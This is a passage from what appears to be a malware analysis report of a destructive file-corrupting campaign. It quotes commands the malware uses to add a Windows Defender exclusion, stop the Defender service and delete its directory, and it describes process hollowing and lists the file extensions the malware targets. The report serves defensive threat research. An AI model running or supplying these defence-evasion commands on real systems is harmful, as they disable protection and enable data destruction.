 ```
Uses PowerShell to add a Windows Defender exclusion

powershell.exe Set-MpPreference -ExclusionPath 'C:\'
```

[AdvancedRun](https://www.nirsoft.net/utils/advanced_run.html), a program used to run Windows applications with different settings, is then dropped to disk and executed in order to launch the Service Control Manager and stop the Windows Defender service (WinDefend).

```
AdvancedRun is used to stop Windows Defender

"C:\Users\jim\AppData\Local\Temp\AdvancedRun.exe" /EXEFilename "C:\Windows\System32\sc.exe" `
  /WindowState 0 /CommandLine "stop WinDefend"  /StartDirectory "" /RunAs 8 /Run

```

AdvancedRun is used again when launching PowerShell to recursively delete the Windows Defender directory and its files.

```
AdvancedRun deleting the Windows Defender directory

"C:\Users\jim\AppData\Local\Temp\AdvancedRun.exe" `
  /EXEFilename "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" /WindowState 0 `
  /CommandLine "rmdir 'C:\ProgramData\Microsoft\Windows Defender' -Recurse" `
  /StartDirectory "" /RunAs 8 /Run
```

Copies InstallUtil.exe is a command-line utility that allows users to install and uninstall server resources from the local machine into the user’s %TEMP% directory. This action leverages the file for [process hollowing](https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process) by launching it in a suspended state.

![](/assets/images/operation-bleeding-bear/operation-bleeding-bear-image14.jpg)

It then proceeds to allocate memory (VirtualAllocEx , write the file corruptor payload (described as the Final Stage below) into memory (WriteProcessMemory), modify the thread entry point (SetThreadContext) to point to the file corruptor entry point, and start execution of the file corruptor (ResumeThread).

![](/assets/images/operation-bleeding-bear/operation-bleeding-bear-image8.jpg)

### Final stage: File corruptor

The final file corruptor payload is loaded in memory via process hollowing to the InstallUtil process. The file corruptor:

- Targets any local hard drives, attached USB drives, or mounted network shares
- Scans directories for files matching internal hard-coded extension list (excluding the Windows folder)

```
.3DM .3DS .602 .7Z .ACCDB .AI .ARC .ASC .ASM .ASP .ASPX .BACKUP .BAK .BAT .BMP .BRD
.BZ .BZ2 .C .CGM .CLASS .CMD .CONFIG .CPP .CRT .CS .CSR .CSV .DB .DBF .DCH .DER .DIF
.DIP .DJVU.SH .DOC .DOCB .DOCM .DOCX .DOT .DOTM .DOTX .DWG .EDB .EML .FRM .GIF .GO
.GZ .H .HDD .HTM .HTML .HWP .IBD .INC .INI .ISO .JAR .JAVA .JPEG .JPG .JS .JSP .KDBX
.KEY .LAY .LAY6 .LDF .LOG .MAX .MDB .MDF .MML .MSG .MYD .MYI .NEF .NVRAM .ODB .ODG .ODP
.ODS .ODT .OGG .ONETOC2 .OST .OTG .OTP .OTS .OTT .P12 .PAQ .PAS .PDF .PEM .PFX .PHP .PHP3
.PHP4 .PHP5 .PHP6 .PHP7 .PHPS .PHTML .PL .PNG .POT .POTM .POTX .PPAM .PPK .PPS .PPSM .PPSX
.PPT .PPTM .PPTX .PS1 .PSD .PST .PY .RAR .RAW .RB .RTF .SAV .SCH .SHTML .SLDM .SLDX .SLK
.SLN .SNT .SQ3 .SQL .SQLITE3 .SQLITEDB .STC .STD .STI .STW .SUO .SVG .SXC .SXD .SXI .SXM
.SXW .TAR .TBK .TGZ .TIF .TIFF .TXT .UOP .UOT .VB .VBS .VCD .VDI .VHD .VMDK .VMEM .VMSD
.VMSN .VMSS .VMTM .VMTX .VMX .VMXF .VSD .VSDX .VSWP .WAR .WB2 .WK1 .WKS .XHTML .XLC .XLM
.XLS .XLSB .XLSM .XLSX .XLT .XLTM .XLTX .XLW .YML .ZIP

```

